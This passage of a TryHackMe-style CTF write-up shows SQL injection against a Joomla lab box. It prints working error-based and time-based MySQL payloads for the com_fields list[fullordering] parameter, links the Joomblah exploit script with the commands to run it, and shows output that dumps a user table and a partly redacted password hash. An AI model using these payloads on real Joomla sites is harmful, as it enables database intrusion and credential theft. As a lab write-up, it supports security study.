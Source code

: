 ```bash

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)

```

It seems we can exploit this version by using a SQLMap commnad. However, while searching for the CVE Number related to this vulnerability we see there is a python script available. Which could be what the room suggests instead of goind the SQLi way. Let's look at that first.

- Download the Script: From [this link](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).

Please be aware that in order for this script to work I had to install the following first:

```sh
sudo apt install python-pip -y
pip install requests
```

Then I was able to execute the script, it was quite fast and just required the URL:

```sh
┌──(kali㉿kali)-[~/Documents/THM/dailyBugle]
└─$ python joomblah.py http://10.10.61.166:80
                                                                                                                                                                                                                            
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/{REDACTED}VMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```
